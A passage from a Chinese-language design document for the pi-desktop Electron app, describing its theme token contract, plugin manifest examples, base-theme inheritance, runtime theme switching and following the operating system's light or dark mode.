两条路径都从同一个 `Theme` 对象取值，保证一致性。Context 路径是默认推荐——插件能用 pi.ui 组件就用，自动获得主题、无障碍、焦点管理；只有 pi.ui 没有的元素才走 props 路径手动读 token。

#### 2.3.2 为什么不用 CSS 变量

一个常见做法是把 token 注入成 CSS 自定义属性（`--color-bg`、`--font-size-base`），组件用 `var(--color-bg)` 取值。pi-desktop 不采用这条路径，原因有二：

第一，token 值不全是 CSS 合法值。`spacing.md` 的值可能是 `"16px"`（CSS 合法），但 `color.bg` 的值可能是 `"#1e1e2e"`（CSS 合法）也可能是带 alpha 的 `"#1e1e2eff"`（CSS 合法）或 `"rgb(30,30,46)"`（CSS 合法）——但 `shadow.md` 的值是 `"0 2px 8px rgba(0,0,0,0.15)"`（CSS 合法）、`font.size.base` 是 `"14px"`（CSS 合法）。看起来都合法，但一旦主题插件给了一个非标准值（比如 `color.bg` 给了 `"dark"` 这种变量引用，沿用底座主题的 vars 机制），CSS 变量路径就会渲染成无效值。pi-desktop 的 token 值约定是"最终 CSS 值字符串"，不引入变量引用层，但校验时机在运行时——用 CSS 变量会让"值非法"在浏览器渲染时才暴露，难诊断。

第二，React 响应式更可控。用 Context 注入，主题切换时 core 主动控制哪些组件重渲染（Context value 变→消费者重渲染），可以在切换时插入过渡（如淡入淡出）。CSS 变量是浏览器原生联动，无法插入过渡逻辑。pi-desktop 选 React Context 以保持渲染可控性。

不过，pi.ui 组件库内部实现一个组件时，可以把 Context 里的 token 值转成 CSS 变量挂到组件根元素的 style 上（组件内部细节、不暴露给插件），这样既享受 React 响应式又享受 CSS 变量的级联便利。这是实现层的自由，不在契约层约束。



**图 4 — 主题切换时序：选主题→写偏好→重合并→注入 Context→重渲染**

---

## 3 token 清单：core 与插件之间的稳定契约

### 3.1 token 是契约不是配置

#### 3.1.1 key 固定、值可变

主题 token 是 core 和所有插件之间的稳定视觉契约——key 固定、值可变。core 在 `domain/slots/theme-tokens.ts`（圆心）定义这些 key 的清单和默认值，主题插件给值。core 渲染时只认这些 key，不认具体值。这意味着：

- core 代码里出现 `theme["color.bg"]` 是合法的（取一个固定 key 的值），但出现 `theme["#1e1e2e"]` 或 `theme["myCustomColor"]` 是 bug——前者是硬编码值、后者是 core 不认的 key。
- 主题插件可以只填它关心的 key，其余 key 用 core 的默认值。这让"一个品牌主题只改主色"成为可能——只填 `color.primary` 一个 key，其余继承自 base 主题或 core 默认。
- 新增 token 是扩展（core 加 key + 默认值、旧主题不填用默认），不改已有 key 语义——开闭原则。删 token 或改 key 语义是破坏性变更，要走版本协商（`DESIGN.md` 6.4 的协议漂移落点在 `gateway/protocol/versions.ts`，token 清单的版本管理类比之）。

#### 3.1.2 五大维度

token 清单按五个维度组织：颜色、字号、间距、圆角、阴影。每个维度是一组 key，core 定义 key、主题填值。下面逐维度展开，每个 key 标注语义、典型值、被谁消费。

### 3.2 颜色 token

#### 3.2.1 颜色 token 全清单

颜色是最大的维度，分几组语义角色：

```
背景与前景（最基础）:
  color.bg            主背景        典型值 dark: #0e0e11 / light: #ffffff
  color.fg            主前景        典型值 dark: #e8e8eb / light: #1e1e2e
  color.surface       卡片/面板背景   典型值 dark: #1b1b20 / light: #f1f3f5
  color.surface-fg    卡片前景      典型值 dark: #e8e8eb / light: #1e1e2e

主色（链接/按钮/强调）:
  color.primary       主色         典型值 dark: #f5f5f7 / light: #1971c2
  color.primary-fg    主色上的前景   典型值 dark: #101013 / light: #ffffff

状态色（成功/警告/错误/危险）:
  color.accent.success    成功     典型值 dark: #4ac26b / light: #2f9e44
  color.accent.warning    警告     典型值 dark: #e5a63d / light: #e67700
  color.accent.error      错误     典型值 dark: #f2555a / light: #e03131
  color.accent.danger     危险     典型值 dark: #f2555a / light: #c92a2a

边框与次要:
  color.border        边框         典型值 dark: #26262c / light: #dee2e6
  color.muted         次要文本      典型值 dark: #86868f / light: #868e96
```

`color.bg`/`color.fg` 是最底层的背景前景对，core 的根容器用它。`color.surface`/`color.surface-fg` 是卡片、面板、模态框背景前景。`color.primary` 是主色——链接、主按钮、选中态用它。状态色四件套是 bash 输出、工具卡片状态标记、通知用的。`color.border` 是分隔线、卡片边框。`color.muted` 是次要文本（时间戳、辅助说明）。

#### 3.2.2 颜色对的对比度约束

每个前景/背景颜色对（`color.fg`/`color.bg`、`color.surface-fg`/`color.surface`、`color.primary-fg`/`color.primary`、`color.muted`/`color.surface`、`color.accent.*` 在白/黑底上的可读性）必须满足 WCAG AA（≥4.5:1 对比度，大字号 ≥3:1）。这是无障碍约束，详见第 8 节。core 定义这些"必须校验的颜色对"列表，运行时合并后逐一算对比度、不达标记警告。

### 3.3 字号 token

#### 3.3.1 字号 token 清单

```
字号:
  font.size.base      基础字号    典型值 14px
  font.size.sm        小字号      典型值 12px
  font.size.lg        大字号      典型值 16px

字族:
  font.family.mono    等宽（代码）  典型值 "SF Mono", "JetBrains Mono", monospace
  font.family.sans    无衬线（正文）典型值 -apple-system, "Segoe UI", sans-serif
```

字号只有三档（base/sm/lg），刻意不搞 5 档 7 档——token 越多、主题插件越难维护一致性、插件作者越容易挑花眼。三档覆盖"正文/辅助/标题"三个语义角色。字族两个：mono 给代码块、bash 输出、diff，sans 给正文 UI。主题插件可以只改 mono（比如换成自己喜欢的等宽字体）、其余用默认。

#### 3.3.2 字号值来自主题、无独立用户偏好

字号值（`font.size.*`）是主题 token、由主题插件 manifest 贡献，本身没有"独立的用户字号偏好"——当前不存一份"用户字号"在 electron-store 或 pi settings 里。用户拿到的字号是：`currentThemeId` 对应主题合并后的 `font.size.*` token 值。底座 settings 里也没有字号字段（底座是终端、字号由终端模拟器定）。

如果用户想"在 dark 基础上把字号调大"、又不改 dark 主题插件，当前要自己写一个声明 `base: "dark"` 的子主题、覆盖 `font.size.*` 这几个 key（见第 5 节继承、第 24.1.3 节演进项）。这条限制是有意的：字号是主题的一部分，独立出来会让"字号偏好"和"主题"两个状态源互相干扰、合并语义复杂化。演进方向（第 24.1.3 节）是支持用户级 token 覆盖、届时字号可单独调。

### 3.4 间距 token

#### 3.4.1 间距档位

```
间距:
  spacing.xs    8px    紧凑间距（图标和文字间）
  spacing.sm    12px   小间距（卡片内边距）
  spacing.md    16px  中间距（卡片间距、列表项间）
  spacing.lg    24px   大间距（区块间距）
  spacing.xl    32px   超大间距（页面边距）
```

五档间距，8 的倍数（8/12/16/24/32），保证视觉节奏。core 渲染卡片内边距、列表项间距、区块间距全部从这五档取，不内嵌 `"padding: 14px"` 这种零散值。主题插件可以整体缩放（比如把五档都乘 1.2 做一个"宽松"主题），但 key 不变。

### 3.5 圆角 token

```
圆角:
  radius.sm    4px     小圆角（按钮、输入框）
  radius.md    8px     中圆角（卡片）
  radius.lg    12px    大圆角（模态框、大面板）
```

三档圆角。主题插件可以全设成 0 做一个"扁平"主题，或全设成大值做一个"圆润"主题。core 的 pi.ui 组件库内部按组件类型选用合适的档位——Button 用 sm、Card 用 md、Dialog 用 lg。

### 3.6 阴影 token

```
阴影:
  shadow.sm    卡片轻微浮起    典型值 0 1px 3px rgba(0,0,0,0.1)
  shadow.md    卡片明显浮起    典型值 0 2px 8px rgba(0,0,0,0.15)
  shadow.lg    模态框浮起      典型值 0 8px 24px rgba(0,0,0,0.2)
```

三档阴影。阴影值是完整 CSS box-shadow 字符串，主题插件直接填。注意阴影在明暗主题下差异大——暗色主题的背景本身就是深色，黑色半透明阴影（如 `rgba(0,0,0,0.4)`）叠在深色背景上几乎不可见，因此暗色主题的阴影反而要用更柔、更长扩散的低对比半透明黑（或浅色光晕），靠扩散范围和边缘渐变而非深浅来制造层次；亮色主题的阴影则用常规的浅黑半透明。主题插件要分别为明暗主题给值，不能一个值两边用。

### 3.7 边框 token

```
边框:
  border.width.thin    1px      细边框（默认）
  border.color         = color.border（引用颜色 token，不单独填值）
```

边框宽度只有一档（thin = 1px），刻意不搞多档——边框宽度变来变去容易破坏视觉一致性。`border.color` 是一个**派生 token（derived, not settable）**：它在 `THEME_TOKEN_KEYS` 清单内（消费侧 `theme["border.color"]` 取值合法），但主题插件**不应在 manifest 里直接填它**——加载器第 3 项校验依据 `domain/slots/theme-tokens.ts` 导出的 `DERIVED_TOKENS` 集合（当前含 `border.color`）判定：显式赋值即记一个"派生 key 不应显式赋值"的警告、值被忽略。`border.color` 的值由 `buildCurrentTheme` 在默认值补齐**之后**自动从 `color.border` 复制：`resolveTheme` 返回的 `raw` 先与 `THEME_TOKEN_DEFAULTS` 合并补齐，随后若 `raw` 里没有 `border.color`、就用补齐后的 `theme["color.border"]` 填上（见 2.2.2 伪代码）。主题插件改 `color.border` 边框色自动跟着变。这条 fallback 逻辑落在 `application/theme/merge.ts` 的 `buildCurrentTheme` 中（消费侧之前、保证 `theme["border.color"]` 永远有值），不在 `resolveTheme` 内、也不在消费侧。

### 3.8 token 的开闭原则

#### 3.8.1 新增 token 的流程

core 演进时需要新增 token（比如加一个 `color.accent.info` 用于 info 级别通知）。流程是：

1. 在 `domain/slots/theme-tokens.ts` 的清单里加 `color.accent.info` 这个 key，给它一个默认值（如 `"#89b4fa"`）。
2. core 自己的渲染代码开始用 `theme["color.accent.info"]`。
3. 旧主题插件没填这个 key——合并时用 core 默认值，旧主题照样工作。
4. 新主题插件可以填这个 key 覆盖默认值。

这是扩展，不改已有 key 语义、不破坏旧主题。已有 key 的语义（`color.bg` 永远是主背景）永不改变——如果未来要重新定义语义，新开 key（如 `color.bg.elevated`），不修改 `color.bg`。

#### 3.8.2 不删 token

token 一旦发布就不删。哪怕 core 不再渲染某个元素（比如废弃了某个组件），它用的 token key 也保留在清单里——旧主题插件可能还填着这个 key，删了会让旧主题的 manifest 校验失败。废弃 token 标记为 `deprecated` 在文档里说明，但 key 留着、core 给默认值。

---

## 4 主题插件长什么样：manifest 与示例

### 4.1 manifest 结构

#### 4.1.1 最小主题插件

一个最小主题插件就是一个 `plugin.json`，没有任何代码文件：

```json
{
  "id": "acme-theme",
  "version": "1.0.0",
  "displayName": "Acme Brand Theme",
  "tokenSchemaVersion": "^1.0",
  "contributes": {
    "themes": [
      {
        "id": "acme-dark",
        "name": "Acme Dark",
        "base": "dark",
        "tokens": {
          "color.primary": "#ff6b35",
          "color.primary-fg": "#ffffff"
        }
      }
    ]
  }
}
```

这个插件贡献一个 `acme-dark` 主题，继承内置 `dark`，只覆盖 `color.primary` 和 `color.primary-fg` 两个 token——把主色换成 Acme 品牌橙。其余 token 全继承自 dark。这就是"品牌微调"主题的典型形态：不复制整套 token、只改品牌色。

#### 4.1.2 manifest 字段约束

主题插件的 manifest 字段约束和别的插件一致（`DESIGN.md` 3.2），并新增一个主题专属的可选字段 `tokenSchemaVersion`：

- `id`/`version`/`displayName` 必填。
- `contributes.themes` 是数组，每项是 `{ id, name, tokens, base? }`。
- `tokenSchemaVersion`（可选，字符串，根级字段）：声明本插件面向的 token 清单语义版本，如 `"^1.0"`。放在 manifest 根（不在 `contributes.themes` 每项内——一个插件贡献的所有主题共享同一个清单版本假设）。默认值 `"^1.0"`（未填视为兼容当前主版本）。加载器第 3 项校验时：若插件声明的版本与 core 的 `THEME_TOKEN_SCHEMA_VERSION` 不兼容（major 不匹配），标黄警告但不禁用，让旧主题在新 core 上尽力跑、能用多少用多少；minor 不匹配视为兼容、不告警。该字段是否填都不影响主题挂载，仅用于兼容性诊断。
- 没有 `main`、没有 `renderer`——纯声明式，加载器不 spawn worker、不 activate。
- 校验在加载器第 3 步（`DESIGN.md` 3.5 第 3 项）做：`contributes.themes` 每项的 `id`/`name`/`tokens` 必填、`tokens` 的 key 在 core 清单内（派生 key——即 `DERIVED_TOKENS` 集合里的 key，当前为 `border.color`——不允许显式赋值、记警告并忽略）、值的类型是字符串、`base`（如果填）指向的主题 id 在注册表里存在（或将在后续挂载中出现）。

`base` 的校验有个细节：`base` 指向的主题可能是同一个插件贡献的、也可能是别的插件贡献的、还可能是内置的。加载顺序不保证 base 先于子主题挂载，所以 `base` 的存在性校验放在所有主题贡献项挂载完之后做（"延迟校验"），而不是挂载时做。挂载时只记下 `base` 字段值，合并阶段（第 2.2 节）才递归解析——解析时如果 base 不存在，抛 `ThemeError`、该主题标记不可用。

### 4.2 内置主题插件的三主题

#### 4.2.1 dark / light / 跟随系统

pi-desktop 随壳分发的内置主题插件（`src/plugins/theme/`）贡献三个主题：`dark`、`light`、`auto`（跟随系统）。dark 和 light 是两套完整的 token 值，auto 是一个特殊的"动态 base"主题——它的 `base` 不指向固定 id，而是运行时根据系统当前 `prefers-color-scheme` 动态指向 `dark` 或 `light`。

```json
// src/plugins/theme/plugin.json（内置，builtin 优先级最低、可被覆盖）
{
  "id": "theme",
  "version": "0.1.0",
  "displayName": "Built-in Themes",
  "contributes": {
    "themes": [
      {
        "id": "dark",
        "name": "theme.dark",
        "tokens": {
          "color.bg": "#0e0e11",
          "color.fg": "#e8e8eb",
          "color.surface": "#1b1b20",
          "color.surface-fg": "#e8e8eb",
          "color.primary": "#f5f5f7",
          "color.primary-fg": "#101013",
          "color.accent.success": "#4ac26b",
          "color.accent.warning": "#e5a63d",
          "color.accent.error": "#f2555a",
          "color.accent.danger": "#f2555a",
          "color.border": "#26262c",
          "color.muted": "#86868f",
          "font.size.base": "14px",
          "font.size.sm": "12px",
          "font.size.lg": "16px",
          "font.family.mono": "\"SF Mono\", \"JetBrains Mono\", monospace",
          "font.family.sans": "-apple-system, \"Segoe UI\", sans-serif",
          "spacing.xs": "8px",
          "spacing.sm": "12px",
          "spacing.md": "16px",
          "spacing.lg": "24px",
          "spacing.xl": "32px",
          "radius.sm": "4px",
          "radius.md": "8px",
          "radius.lg": "12px",
          "border.width.thin": "1px",
          "shadow.sm": "0 1px 2px rgba(0,0,0,0.5)",
          "shadow.md": "0 4px 12px rgba(0,0,0,0.5)",
          "shadow.lg": "0 12px 32px rgba(0,0,0,0.6)"
        }
      },
      {
        "id": "light",
        "name": "theme.light",
        "tokens": {
          "color.bg": "#ffffff",
          "color.fg": "#1e1e2e",
          "color.surface": "#f1f3f5",
          "color.surface-fg": "#1e1e2e",
          "color.primary": "#1971c2",
          "color.primary-fg": "#ffffff",
          "color.accent.success": "#2f9e44",
          "color.accent.warning": "#e67700",
          "color.accent.error": "#e03131",
          "color.accent.danger": "#c92a2a",
          "color.border": "#dee2e6",
          "color.muted": "#868e96",
          "shadow.sm": "0 1px 3px rgba(0,0,0,0.1)",
          "shadow.md": "0 2px 8px rgba(0,0,0,0.15)",
          "shadow.lg": "0 8px 24px rgba(0,0,0,0.2)"
        }
      },
      {
        "id": "auto",
        "name": "theme.auto",
        "tokens": {},
        "base": "__auto__"
      }
    ]
  }
}
```

`auto` 主题的 `base: "__auto__"` 是一个保留哨兵值，合并阶段识别到它就走"动态 base"逻辑（第 7 节）。`tokens` 为空——它自己不贡献任何 token，完全靠运行时切 base。

#### 4.2.2 内置主题可被覆盖

内置主题插件优先级最低（`builtin`）。用户或项目级放一个同 id 插件（`id: "theme"`）就能整体替换它——想换一套 dark 配色？写个 `id: "theme"` 的插件放 `~/.pi/desktop/plugins/`，贡献一个 `id: "dark"` 的主题，就覆盖了内置 dark。这是 VSCode 镜像——VSCode 的默认主题就是 extension、可被替换。core 不霸占任何功能位：core 提供机制（主题槽 + token 清单）和默认实现（内置三主题），用户有完全的替换自由。

### 4.3 一个完整的第三方主题插件示例

#### 4.3.1 Solarized 主题

```json
{
  "id": "solarized-theme",
  "version": "1.2.0",
  "displayName": "Solarized",
  "contributes": {
    "themes": [
      {
        "id": "solarized-dark",
        "name": "Solarized Dark",
        "base": "dark",
        "tokens": {
          "color.bg": "#002b36",
          "color.fg": "#839496",
          "color.surface": "#073642",
          "color.surface-fg": "#93a1a1",
          "color.primary": "#268bd2",
          "color.primary-fg": "#002b36",
          "color.accent.success": "#859900",
          "color.accent.warning": "#b58900",
          "color.accent.error": "#dc322f",
          "color.accent.danger": "#dc322f",
          "color.border": "#586e75",
          "color.muted": "#657b83"
        }
      },
      {
        "id": "solarized-light",
        "name": "Solarized Light",
        "base": "light",
        "tokens": {
          "color.bg": "#fdf6e3",
          "color.fg": "#657b83",
          "color.surface": "#eee8d5",
          "color.surface-fg": "#586e75",
          "color.primary": "#268bd2",
          "color.primary-fg": "#fdf6e3",
          "color.accent.success": "#859900",
          "color.accent.warning": "#b58900",
          "color.accent.error": "#dc322f",
          "color.accent.danger": "#dc322f",
          "color.border": "#93a1a1",
          "color.muted": "#93a1a1"
        }
      }
    ]
  }
}
```

这个插件贡献两个主题（dark/light 各一），各自继承内置的 dark/light 只覆盖颜色 token，字号/间距/圆角/阴影用继承值。这是典型的"配色换皮"主题——只动颜色、不动排版。注意它没有 `base` 指向 `auto`，所以这两个主题是静态的、不跟随系统。用户要在系统切暗时自动切 solarized-dark、系统切亮时自动切 solarized-light，需要自己选 `auto` 主题（但 auto 的 base 是内置 dark/light，不是 solarized）——这是当前限制，第三方主题要实现"跟随系统的品牌主题"需要自己贡献一个 auto 变体或等 core 支持"自定义 auto base 映射"（第 10 节演进项）。

---

## 5 主题继承：base 字段

### 5.1 继承的语义

#### 5.1.1 base 是什么

`base` 字段让一个主题继承另一个主题的全部 token、只覆盖自己声明的几个。合并时先取 base 主题的 token 打底、再用本主题的 tokens 覆盖（第 2.2.2 节的 `resolveTheme` 递归）。这让"dark 基础上的某个品牌微调"不用复制整套 token——只填品牌色几个 key，其余继承。

继承是主题插件能保持小巧的关键。没有继承，每个主题都要填 30+ 个 token 全集，维护成本高、容易遗漏；有继承，一个主题只填它"和父主题不同"的部分，5 个 key 也能成一个主题。

#### 5.1.2 继承链可嵌套

继承链可以嵌套：A 继承 B、B 继承 C。合并时按链递归取——先取 C 的 token、再被 B 的 token 覆盖、再被 A 的 token 覆盖。例如：

```
base-dark (内置)        tokens: {color.bg:#0e0e11, color.fg:#e8e8eb, ...全套}
  ↑ base
brand-dark (第三方)     tokens: {color.primary:#ff6b35}  只改主色
  ↑ base
brand-dark-compact      tokens: {spacing.xs:6px, spacing.sm:10px}  只改间距
```

`brand-dark-compact` 合并后是 base-dark 全套 + brand-dark 的主色覆盖 + 自己的间距覆盖。这种链式继承让主题可以正交组合——一个主题改颜色、一个主题改排版、合起来就是一个"品牌色 + 紧凑排版"的主题。

### 5.2 循环继承检测

#### 5.2.1 环检测算法

继承链可能成环（A→B→A，或 A→B→C→A）。合并时 `resolveTheme` 用一个 `seen` Set 记录访问过的主题 id，递归前先查 `seen.has(themeId)`，命中就抛 `ThemeError("循环继承: A → B → A")`。这个错误会让该主题标记为不可用、记入诊断页（第 8.4 节），但不禁用其他主题、不拖垮 core。



**图 5 — resolveTheme 递归合并 + 环检测流程**

#### 5.2.2 base 不存在的处理

`base` 指向的主题 id 在注册表里不存在（拼写错、被覆盖掉、依赖的插件没装）时，`resolveTheme` 抛 `ThemeError("主题不存在: {base}")`。这个错误同样不拖垮 core——该主题标记不可用，用户在管理 UI 主题选择器里看到它标红、tooltip 显示"依赖的主题 {base} 不存在"。其他主题正常工作。

`base` 的存在性校验在合并阶段（运行时）做，不在加载阶段做——因为加载时不能保证 base 先于子主题挂载（第 4.1.2 节）。这是"延迟校验"模式：加载时只记字段值、运行时合并时才解析语义。

### 5.3 base 与 token 级合并的关系

#### 5.3.1 两个合并层次

主题槽的合并有两个层次，不要混淆：

- **贡献项级 token 合并**（第 1.3.3 节）：多个插件给**同一个主题 id** 贡献 token，按 key 合并。这是横向合并——同 id 的多个贡献项拼成这个主题的 token 全集。
- **base 继承合并**（本节）：一个主题声明 `base`，取父主题的 token 打底、自己覆盖。这是纵向合并——跨主题 id 的继承链。

两个层次是正交的。合并算法是：先把所有贡献项按 id 聚合（横向 token 合并 + 整主题 id 二选一）得到每个主题 id 的"聚合 token"，再按 base 链递归覆盖（纵向继承）。`resolveTheme` 的输入 `registry.get(themeId)` 拿到的 `entry.tokens` 已经是横向合并后的结果，`resolveTheme` 只做纵向继承。

---

## 6 主题切换：不重启、不丢会话

### 6.1 切换的语义

#### 6.1.1 切换 = 换 id + 重合并 + 重渲染

用户在管理 UI 主题选择器选一个主题，core 做三件事：

1. 把当前主题 id 写进 electron-store 偏好（`currentThemeId`）。
2. 触发重合并——调 `buildCurrentTheme(newId, registry)`，产出新的圆心 `Theme` 对象。
3. 把新 `Theme` 注入 `ThemeContext`，React 自动重渲染所有消费 Context 的组件。

这三步全是 renderer 进程内的数据操作，不碰底座子进程、不重启 RPC、不丢会话。底座子进程完全不知道桌面换了主题——它只管 agent 运行时，主题和它无关。这是"主题是桌面端偏好、和 pi 无关"在切换路径上的具体体现。

#### 6.1.2 不进 pi settings

主题 id 存 electron-store（桌面端本地偏好），不进 pi settings（`~/.pi/agent/settings.json`）。这和底座 settings 里的 `theme` 字段（管底座终端主题）是两份独立存储。桌面端不读写底座的 `theme` 字段——那是底座终端主题、和桌面 GUI 无关。如果未来要让桌面主题和底座终端主题联动（比如桌面切暗、底座终端也切暗），那是一个跨进程协调特性，要走 RPC 命令（目前 RPC 31 命令里没有 set_theme，是缺口、记第 10 节演进项），不是直接写底座 settings。

### 6.2 切换的时机

#### 6.2.1 三个触发源

主题切换有三个触发源：

- **用户主动选**：在管理 UI 主题选择器点一个主题。这是最常见路径。
- **跟随系统变化**：当前主题是 `auto`，系统 `prefers-color-scheme` 变了（用户在 OS 层切了暗黑模式），core 监听到变化、重新解析 auto 的 base（从 dark 切到 light 或反之）、重合并、重渲染。见第 7 节。
- **主题插件热重载**：用户编辑了一个主题插件的 token 值（改颜色），加载器的 file watcher 检测到改动、重新挂载该插件的贡献项、主题槽注册表更新、如果该插件贡献的是当前主题则重合并。这是 `DESIGN.md` 3.5 第 8 项热重载在主题上的体现——主题插件虽然是纯声明式没有代码模块，但它的 manifest（token 值）变了也要重挂载。



**图 6 — 主题切换状态机：Idle→Merging→Validating→Injecting→Idle，错误时回退**

#### 6.2.2 切换失败的回退

切换时如果新主题合并失败（循环继承、base 不存在、token 值非法导致解析异常），core 不让 GUI 进入"既不是旧主题也不是新主题"的悬空状态——回退到上一个可用的 `Theme` 对象。具体是：`buildCurrentTheme` 在内部捕获 `resolveTheme` 抛出的 `ThemeError`、不向 core 上抛，返回兜底 `Theme` + `error` 标记（见 2.2.2）；调用方（`PluginContext.theme.setCurrentThemeId`）检查 `error`、若存在则不把兜底 `Theme` 注入 `ThemeContext`（保持上一个值不变）、把错误记入诊断页、在管理 UI 提示"主题 {newId} 加载失败，已保持 {oldId}"、并按 12.2.1 的 fallback 链尝试 `auto → dark`。这是热重载"重载失败回退旧版"原则（`DESIGN.md` 3.5 第 8 项）在主题切换上的应用。捕获职责内聚在 `buildCurrentTheme` 自身，启动恢复/用户切换/IPC 重合并三处调用点统一依赖此出口、`ThemeError` 不会在任何路径上冒泡到 core。

### 6.3 切换的性能

#### 6.3.1 重渲染的范围

主题切换会让整个 GUI 重渲染——`ThemeContext` 的 value 变、所有消费它的 pi.ui 组件和读 `theme` props 的自定义组件重渲染。这是 React 响应式的代价。对于 pi-desktop 这种中等规模 UI（时间线 + 几个面板 + 模态框），一次全量重渲染在现代机器上是毫秒级、用户无感。如果未来 UI 变得很大（比如时间线有上千条 entry），要考虑用 React.memo 把不依赖主题的子树隔离开——但这是渲染层优化、不是主题契约的事。

#### 6.3.2 合并本身的开销

合并本身（`resolveTheme` 递归 + `validateContrast`）是纯 CPU 计算，token 数量级是几十个、继承链深度通常 1-2 层，开销可忽略。不需要缓存合并结果——每次切换重算完全可接受。如果未来要优化，可以缓存"themeId + registry 版本号 → Theme"的映射，registry 变了才重算，但这是过早优化、当前不做。

---

## 7 明暗模式跟随系统

### 7.1 auto 主题的设计

#### 7.1.1 动态 base

`auto` 主题的核心是它的 `base` 不指向固定 id，而是运行时根据系统 `prefers-color-scheme` 动态指向 `dark` 或 `light`。这在 manifest 里用 `base: "__auto__"` 这个保留哨兵值表达（第 4.2.1 节）。合并阶段识别到 `base === "__auto__"`，不递归 resolveTheme，而是查当前系统配色偏好、把 base 替换成 `"dark"` 或 `"light"` 再递归。

```typescript
// application/theme/auto-theme.ts —— auto 主题的动态 base 解析
// application 层只持有系统配色值、不直接读 Electron nativeTheme（依赖方向向内）。
// 系统配色由 shell 层注入：main 侧 theme-listener 读 nativeTheme.prefersColorScheme 后
// 调 setSystemColorScheme，renderer 侧收到 main→renderer IPC 后同样调 setSystemColorScheme（见 7.2.1）。
export type SystemColorScheme = "dark" | "light" | "no-preference";

let currentSystemColorScheme: SystemColorScheme = "no-preference";

/** shell 层调用：注入当前系统配色。application 层只存值、不碰 nativeTheme。 */
export function setSystemColorScheme(scheme: SystemColorScheme): void {
  currentSystemColorScheme = scheme;
}

/** resolveTheme 合并 auto 主题时调用：按当前已注入的系统配色解析动态 base。 */
export function resolveAutoBase(): "dark" | "light" {
  // prefersColorScheme 的三种取值处置如下：
  //   "dark"           → "dark"
  //   "light"          → "light"
  //   "no-preference"  → "dark"（显式默认，理由：pi-desktop 内置 dark 主题作为最后兜底，
  //                       无偏好时倾向暗色以减少默认白屏刺眼；该选择记入 16.3 排障项）
  return currentSystemColorScheme === "light" ? "light" : "dark";
}

function resolveTheme(themeId: string, registry: ThemeRegistry, seen: Set<string>): Theme {
  // ...
  if (entry.base === "__auto__") {
    const autoBase = resolveAutoBase();  // 动态解析
    Object.assign(merged, resolveTheme(autoBase, registry, seen));
  } else if (entry.base) {
    Object.assign(merged, resolveTheme(entry.base, registry, seen));
  }
  Object.assign(merged, entry.tokens);
  return merged;
}
```

`auto` 主题自己 `tokens` 为空（第 4.2.1 节），完全靠运行时切 base。所以 `auto` 合并后的 `Theme` 就是 `dark` 或 `light` 的全量 token——切换系统配色时，auto 的合并结果在 dark 和 light 之间切。注意 `no-preference` 的处置是**显式默认为 dark**：`nativeTheme.prefersColorScheme`（由 shell 层读取、经 `setSystemColorScheme` 注入到 application 层，application 层不直接 import nativeTheme）在某些系统（如未配置明暗偏好的 Linux 桌面、或早期 macOS）会返回 `"no-preference"`，此时 `resolveAutoBase` 返回 `"dark"`，避免 GUI 在无偏好系统上行为不可预期。该默认是 pi-desktop 的产品立场（暗色作为兜底），不随 `nativeTheme.shouldUseDarkColors` 的内部猜测变化；若未来想让"无偏好"回退到 electron-store 里记录的最近一次显式选择，记为第 24 节演进项。`resolveAutoBase` 无参、读取 `setSystemColorScheme` 写入的当前值——这保证 main 侧与 renderer 侧都用同一份注入值，且 application 层不越层碰 shell 能力。

#### 7.1.2 auto 是主题不是机制

注意 `auto` 是一个主题 id、不是"主题切换机制"。用户在主题选择器里选的是 `auto` 这个主题，core 记 `currentThemeId = "auto"`。之后系统配色变了，core 重新合并 `auto`（这次 base 解析成另一个）、重渲染。如果用户选的是 `dark`（固定），系统配色变了多少次都不会切——`dark` 的 base 是固定的、不动态解析。这让"跟随系统"是用户的一个显式选择，不是默认行为。

### 7.2 系统配色监听

#### 7.2.1 Electron nativeTheme

监听系统配色变化走 Electron 的 `nativeTheme` API（shell 层提供）。`nativeTheme` 暴露 `prefersColorScheme: "dark" | "light" | "no-preference"` 和 `shouldUseDarkColors: boolean`，以及 `on("updated", ...)` 事件。core 在 shell 层（`shell/electron-main/theme-listener.ts`）订阅 `nativeTheme.on("updated")`，事件触发时读 `nativeTheme.prefersColorScheme`、调 `setSystemColorScheme(scheme)` 把配色注入 application 层（application 层不直接读 nativeTheme）、再经 `resolveAutoBase()` 收敛、经 main→renderer IPC 通知 renderer 侧重合并。

Electron main 与 renderer 是两个进程，main 不能直接改 renderer 的 React Context，必须经 IPC。这条 main→renderer 的主题 IPC 契约定义如下：

- **事件名**：`theme:system-color-scheme-changed`（main 经 `BrowserWindow.webContents.send` 发往 renderer）。
- **payload**：`{ colorScheme: "dark" | "light" }`——main 侧在 `theme-listener.ts` 里读 `nativeTheme.prefersColorScheme`、先调 `setSystemColorScheme(scheme)` 注入 application 层（保证 `resolveAutoBase()` 读到最新值）、再经 `resolveAutoBase()` 收敛成 `"dark" | "light"`（`no-preference` → `dark`，见 7.1.1），只把收敛后的两值之一发给 renderer，不暴露三值。payload 不携带合并后的 `Theme`——合并是 renderer/application 层的事，main 只发"系统配色变了"的信号。
- **renderer 监听落点**：`shell/renderer/theme-context.ts` 在 `ThemeContext` 的 Provider 处订阅该 IPC 事件（经 `window.electron.ipcRenderer.on("theme:system-color-scheme-changed", cb)` 或 core 暴露的 `shellBridge.onThemeSystemColorSchemeChange(cb)` 封装）。收到事件后先调 `setSystemColorScheme(colorScheme)` 把 IPC 传来的配色注入 application 层（与 main 侧写入同一份值、保证 `resolveAutoBase()` 在 renderer 侧重合并时读到一致值），再调 `buildCurrentTheme(currentThemeId, registry)` 重合并；若返回 `error`（`resolveTheme` 抛 `ThemeError` 被 `buildCurrentTheme` 内部捕获，见 2.2.2），则不更新 `ThemeContext`、按 12.2.1 的 fallback 链尝试 `auto → dark`。把新 `Theme` setValue 进 `ThemeContext`。
- **是否需权限**：不需要。该 IPC 是 core 自己的内部通道（main→renderer 单向），不暴露给插件、不走 `permissions` 域名白名单；插件经 `PluginContext.theme.onThemeChange`（见 14.2.4）订阅的是合并后的 Theme 变化、不是原始系统配色事件。



**图 7 — 跟随系统时序：OS→nativeTheme→main→IPC→renderer 合并→重渲染**

#### 7.2.2 监听的注册时机

`nativeTheme` 监听不是 core 启动就注册——只有当前主题是 `auto` 时才需要监听系统变化。core 在主题切换时判断：新主题 id 是 `auto` 就注册 `nativeTheme.on("updated")`、不是就取消注册。这避免非 auto 主题下无谓的系统配色监听开销。切换到 auto 时如果系统当前是暗、合并立即出 dark；切到 dark 时取消监听、合并出固定 dark（即使系统后来变亮也不动）。

### 7.3 第三方主题与跟随系统

#### 7.3.1 当前限制

